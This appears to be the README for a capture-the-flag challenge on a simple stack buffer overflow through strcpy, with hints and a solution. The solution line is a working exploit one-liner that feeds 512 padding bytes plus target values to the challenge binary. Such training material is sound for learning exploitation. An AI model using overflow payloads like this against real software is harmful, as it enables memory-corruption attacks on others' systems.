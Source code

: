 Challenge 3 - 80 Points
========================
Simple buffer overflow to overwite values on the stack.

Must compile with -fno-stack-protector

Hints
-----
1. Strcpy is involved. It's awful.

2. You're gonna need a bigger string.

Solution
--------
./chal3 $(python -c 'print "A"*512 + "\xad\xda\xad\xda\xdd\xee\xee\xdd"')

